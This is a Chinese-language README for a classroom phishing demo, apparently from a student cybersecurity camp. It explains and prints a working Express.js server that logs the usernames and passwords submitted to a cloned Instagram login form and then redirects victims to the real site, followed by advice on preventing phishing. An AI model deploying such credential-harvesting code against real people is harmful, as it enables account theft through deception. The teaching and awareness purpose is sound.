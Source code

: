 # 釣魚網站教材

知資為資知 - 2024中電會聯合寒訓

By [毛哥EM](https://github.com/Edit-Mr)

對於釣魚網站（Phishing）來說，它們通常是為了欺騙用戶輸入他們的敏感信息，如用戶名和密碼。在這個例子中，我構建了一個後端伺服器來收集用戶的登入數據並將其重定向到 Instagram 的真實網站。這是一種非常常見的釣魚攻擊手法。

![](demo.gif)

## 如何運行
確保你已經安裝了 Node.js。下載或克隆此存儲庫。

```bash
npm install express
node app.js
```

在瀏覽器中訪問 <http://localhost:3000>。

## 技術原理

1. **前端偽裝**：
   - 我們創建了一個模仿 Instagram 登入頁面的 HTML 表單。
   - 用戶在這個偽造的頁面上輸入他們的用戶名和密碼。

2. **後端伺服器**：
   - 使用 Express.js 來處理 HTTP 請求。
   - 使用 `body-parser` 來解析表單數據。
   - 當用戶提交表單時，伺服器會接收並記錄這些提交的數據（如用戶名和密碼）。
   - 然後，伺服器將用戶重定向到 Instagram 的真實網站，讓用戶認為他們只是輸錯密碼，其實密碼已經被我們盜取。

### 如何預防釣魚網站

1. **檢查 URL**：
   - 確認網頁地址是否正確。釣魚網站通常會使用與真實網站非常相似的域名，但會有細微差異。

2. **HTTPS**：
   - 檢查網站是否使用 HTTPS。大多數合法網站都會使用 SSL/TLS 加密來保護用戶數據。
   - 雖然 HTTPS 不一定能保護你免受釣魚攻擊，但沒有 HTTPS 的網站應該被視為高風險。

3. **防範電子郵件釣魚**：
   - 小心處理電子郵件中的連結和附件。不要輕易點擊不明來源的連結。
   - 合法公司通常不會通過電子郵件要求用戶提供敏感信息。

4. **雙重身份驗證（2FA）**：
   - 啟用雙重身份驗證，即使密碼被盜，攻擊者也很難登入你的帳戶。

5. **反釣魚工具**：
   - 使用現代瀏覽器中的反釣魚過濾器。
   - 安裝反釣魚軟件或插件，這些工具可以幫助檢測和阻止釣魚網站。

6. **教育和意識**：
   - 增加對釣魚攻擊的認識。經常參加網絡安全培訓，了解最新的釣魚技巧和防禦措施。

### 代碼示範

這是一個基本的釣魚網站後端，以下是重點部分的解釋：

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const path = require('path');

const app = express();
const port = 3000;

// Use body-parser middleware to parse form data
app.use(bodyParser.urlencoded({ extended: true }));

// Serve static files from the 'static' folder
app.use(express.static('src'))

// Handle form submission
app.post('/login', (req, res) => {
    // Log received login data
    console.log('Received login data:', req.body);
    // redirect to https://www.instagram.com/
    res.redirect('https://www.instagram.com/');
});

// redirect GET /login to GET /
app.get('/login', (req, res) => {
    res.redirect('/');
});

// Start the server
app.listen(port, () => {
    console.log(`Server is running at http://localhost:${port}`);
});
```

1. 使用 `express` 建立伺服器。
2. 使用 `body-parser` 解析表單數據。
3. 伺服器接收 `/login` 路徑的 POST 請求，並記錄用戶提交的數據。
4. 然後將用戶重定向到 Instagram 的真實網站。

這樣的釣魚網站非常危險，因為用戶可能不會注意到他們的數據已經被盜取。因此，了解和預防這類攻擊對於保護個人信息至關重要。

## 資安宣導

此倉庫僅供學習用途，請勿用於非法用途，否則後果自負。
